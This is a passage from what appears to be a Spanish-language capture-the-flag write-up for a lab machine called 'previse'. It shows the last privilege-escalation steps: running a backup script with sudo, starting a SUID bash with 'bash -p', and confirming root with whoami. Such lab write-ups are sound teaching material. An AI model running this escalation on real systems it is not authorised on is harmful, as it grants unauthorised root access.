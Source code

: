 ```bash
m4lwhere@previse:~$ sudo /opt/scripts/access_backup.sh
```
Por último ejecutamos una bash atendiendo al permiso **SUID** que se le acaba de asignar

```bash
m4lwhere@previse:~$ bash -p
bash-4.4#
```
Y ahora somos root

```bash
bash-4.4# whoami
root
```

**:>**
